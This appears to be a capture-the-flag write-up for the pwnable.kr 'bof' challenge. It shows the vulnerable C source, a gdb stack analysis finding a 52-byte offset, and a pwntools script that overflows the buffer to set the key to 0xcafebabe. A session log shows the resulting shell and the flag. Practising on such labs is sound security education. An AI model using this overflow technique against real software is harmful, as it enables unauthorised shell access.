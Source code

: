 <h1>bof</h1>
This looks like a regular buffer overflow problem

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

We need key to be 0xcafebabe to get a shell.
disassembling with gdb yields

```
gdb-peda$ disas func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:	call   0xf7e5dca0 <_IO_puts>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e5d3e0 <_IO_gets>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:	call   0xf7e38da0 <__libc_system>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:	call   0xf7e5dca0 <_IO_puts>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0xf7ef5680 <__stack_chk_fail>
   0x56555688 <+92>:	leave  
=> 0x56555689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b *0x56555654
Breakpoint 3 at 0x56555654
```

This breakpoint allows us to see how much memory we need to overwrite. I input 6 e's and look through the stack.

```
gdb-peda$ x/30x $esp
0xffffd590:	0xffffd5ac	0xffffd634	0xf7fb0000	0x00004f17
0xffffd5a0:	0xffffffff	0x0000002f	0xf7e0adc8	0x65656565
0xffffd5b0:	0x56006565	0xf7fb0000	0x00000001	0x5655549d
0xffffd5c0:	0x00000001	0x00000003	0x56556ff4	0xc7964500
0xffffd5d0:	0xf7fb0000	0xf7fb0000	0xffffd5f8	0x5655569f
0xffffd5e0:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
0xffffd5f0:	0xf7fb0000	0xf7fb0000	0x00000000	0xf7e16637
0xffffd600:	0x00000001	0xffffd694
```

We can see 0x65656565 (eeee) is 52 bytes from 0xdeadbeef. This means we need to overwrite 52 bytes.
A quick exploit written using pwntools.

```
from pwn import *;
r = remote("pwnable.kr", 9000)
r.sendline(b'a'*52+p32(0xcafebabe))
r.interactive()
```

```
(ctf) [huck@knuth] python exploit.py          
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
